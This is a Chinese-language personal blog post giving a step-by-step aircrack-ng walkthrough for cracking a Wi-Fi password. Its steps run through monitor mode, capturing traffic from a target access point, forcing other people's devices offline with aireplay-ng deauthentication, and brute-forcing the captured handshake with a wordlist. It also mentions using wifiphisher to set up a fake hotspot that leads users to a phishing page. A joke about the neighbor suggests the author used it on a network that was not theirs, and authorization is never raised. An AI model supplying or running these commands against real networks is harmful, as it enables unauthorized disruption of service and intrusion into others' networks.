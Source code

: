 ```yaml
---
thumbnail: https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/thumbnail/st.jpg
title: aircrack-ng破解wifi
date: 2020-5-4
author: shepherd
toc: ture
categories: [操作系统,Linux]
tags: [aircrack-ng]
---
```


但是使用wifiphisher的情况并没有我想象的那样强大，应该是我的操作问题吧，只是生成了一个假热点，并将用户重定向至钓鱼页面，并没有断开连接原来wifi的设备

在查找资料时碰到了这个工具包，有一个功能就是强制断开他人的wifi，挺有趣的记下笔记

<!-- more -->

使用前提，支持监听注入的网卡

## step1

使用`iwconfig`查看网卡加载情况

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/iwconfig.png)

## step2

`airmon-ng check kill`杀掉所有网络进程

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/kill-net.png)

如果杀掉后自动启动的话，建议使用`systemctl stop`杀得彻底些

## step3

`airmon-ng start wlp0s20f0u1`启动网卡监听模块

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/start-mon.png)

注意网卡名字会变成`wlp0s20f0u1mon`

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/monitor.png)

## step4

`airodump-ng wlp0s20f0u1mon`开始监听

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/net-monitor.png)

- PWR是信号强度，越小信号越强
- CH代表信道

## step5

`airodump-ng -c 6 --bssid 网络mac地址 -w filename wlp0s20f0u1mon`开始抓包

- -c，指的是信道CH
- --bssid，指的是AP mac地址
- -w，输出的文件路径

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/airodump-ng.png)

`STATION`代表的是设备mac，由几个mac就代表有几个设备

当有设备重新连接时，就会抓到握手包，放到`-w`指定的文件里，下一步介绍强制掉线

## step6

`aireplay-ng -0 0 -a AP_mac -c 设备mac wlp0s20f0u1mon`强制wifi掉线

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/aireplay-ng.png)

（希望对面邻居不要生气）当对方重连时就会抓到握手包

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io/static/article/2020/handsnake.png)

## step7

`aircrack-ng -a2 -b AP_mac -w 字典.txt filename.cap`跑字典，爆破密码

字典去网上找吧

## 参考文献

[【无线攻防】使用aircrack-ng工具破解wifi密码](https://blog.csdn.net/nuoya_1995/article/details/52402728)